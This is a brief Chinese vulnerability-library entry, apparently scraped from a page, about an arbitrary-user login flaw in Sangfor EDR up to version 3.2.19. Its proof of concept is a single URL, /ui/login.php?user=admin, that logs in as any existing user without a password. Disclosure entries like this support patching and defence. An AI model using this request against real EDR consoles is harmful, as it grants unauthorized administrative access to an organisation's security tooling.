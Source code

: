 ```yaml
---
title: '深信服EDR任意用户登录漏洞'
date: Fri, 04 Sep 2020 05:13:46 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EDR <=3.2.19

### 漏洞POC

user=任意用户名即可登录（用户名存在）：

```
https://******/ui/login.php?user=admin
```